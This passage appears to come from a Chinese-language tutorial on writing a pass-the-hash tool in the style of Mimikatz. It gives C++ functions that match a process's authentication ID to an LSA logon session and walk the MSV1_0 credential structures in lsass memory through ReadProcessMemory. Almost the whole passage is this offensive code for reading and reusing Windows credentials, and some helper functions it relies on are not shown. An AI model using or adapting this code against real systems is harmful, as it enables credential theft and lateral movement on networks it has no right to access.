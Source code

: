 `Msv1_0Pth()` 函数定义如下，其通过将新进程的 `AuthenticationID` 与枚举 LSA 得到的会话信息中的 `LogonId` 进行比较，从而找到与该进程的访问令牌相关联的登录会话，并对会话信息中找到加密的凭据结构调用 `Msv1_0EnumerateCreds()` 函数。

```c++
void Msv1_0Pth(PBASIC_SECURITY_LOGON_SESSION_DATA pData, PLSA_PTH_DATA pPthData)
{
	MSV1_0_PTH_DATA_CRED pthDataCred = { pData, pPthData };
	if (SecEqualLuid(pData->LogonId, pPthData->LogonId))
	{
		wprintf(L"      \\_ MSV1_0  -  ");
		Msv1_0EnumerateCreds(pData->pCredentials, &pthDataCred);
	}
}
```

## 2.2 处理用户凭据结构

编写 `Msv1_0EnumerateCreds()` 函数，如下所示。

```c++
BOOL Msv1_0EnumerateCreds(PVOID pCredentials, PMSV1_0_PTH_DATA_CRED pthDataCred)
{
	BOOL status = FALSE;
	MSV1_0_CREDENTIALS credentials;
	MSV1_0_PRIMARY_CREDENTIALS primaryCredentials;
	MEMORY_ADDRESS lsassMemory = { pCredentials };

	while (lsassMemory.address)
	{
		if (ReadProcessMemory(cLsass.hProcess, lsassMemory.address, &credentials, sizeof(MSV1_0_CREDENTIALS), NULL))
		{
			while (lsassMemory.address)
			{
				lsassMemory.address = credentials.PrimaryCredentials;
				while (lsassMemory.address)
				{
					if (ReadProcessMemory(cLsass.hProcess, lsassMemory.address, &primaryCredentials, sizeof(MSV1_0_PRIMARY_CREDENTIALS), NULL))
					{
						PVOID pOriginBufferAddress = primaryCredentials.Credentials.Buffer;
						if (GetUnicodeString(&primaryCredentials.Credentials, cLsass.hProcess))
						{
							if (GetUnicodeString((PUNICODE_STRING)&primaryCredentials.Primary, cLsass.hProcess))
							{
								status = Msv1_0CredsPth(&primaryCredentials, pOriginBufferAddress, pthDataCred);
								LocalFree(primaryCredentials.Primary.Buffer);
							}
							LocalFree(primaryCredentials.Credentials.Buffer);
						}
					}
					else
						wprintf(L"[-] MSV1_0_PRIMARY_CREDENTIALS No.\n");
					lsassMemory.address = primaryCredentials.next;
				}
			}
			lsassMemory.address = credentials.next;
		}
		else
			wprintf(L"[-] MSV1_0_CREDENTIALS No.\n");
	}
	return status;
}
```